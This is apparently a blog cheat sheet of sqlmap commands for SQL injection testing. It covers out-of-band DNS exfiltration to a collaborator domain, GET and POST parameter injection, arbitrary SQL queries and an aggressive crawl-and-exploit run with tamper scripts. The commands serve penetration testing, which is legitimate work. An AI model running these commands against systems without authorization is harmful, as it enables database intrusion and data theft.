 
### SQLMap Blind SQLi Out of Band (OOB) 

{% highlight bash %}

sqlmap -u “https://hacksofdhruv.me/?espresso=*” --dns-domain=$your-collab-url

{% endhighlight %}

### SQLMap GET Parameter 

The following specifies the GET parameter “espresso” for injection: 

{% highlight bash %}

sqlmap -u “https://hacksofdhruv.me/?espresso=*” -p espresso 

{% endhighlight %}

### SQLMap POST Parameter

The following specifies the POST parameter “espresso” for injection: 

{% highlight bash %}

sqlmap -u “https://hacksofdhruv.me/?espresso=*” --data “espresso=*” 

{% endhighlight %}

### Run SQL Queries 

You can run a SQL query using --sql-query for example: 

{% highlight bash %}

sqlmap -u hacksofdhruv.me -D $database-name --sql-query="SELECT * FROM $table;"

{% endhighlight %}

### URL Parameters in Friendly URL’s

Simply mark them with an asterisk(*), for example: 

{% highlight bash %}

https://hacksofdhruv.me/foo/bar/parameter1*/value1 

{% endhighlight %}

The above would set the injection point at parameter1.  

### SQLMap Crawl & Exploit 

Useful for automation, however please be mindful of the overheads you are imposing on the target server: 

{% highlight bash %}

python3 sqlmap.py --crawl=5 --threads=5 --risk=3 --level=5 --batch --answers="keep testing=Y,sitemap=Y,skip further tests=N" --crawl-exclude="logout" --forms --tamper=apostrophemask,apostrophenullencode,randomcase --dns-domain=$your-collab-url --random-agent -u https://hacksofdhruv.me

{% endhighlight %}
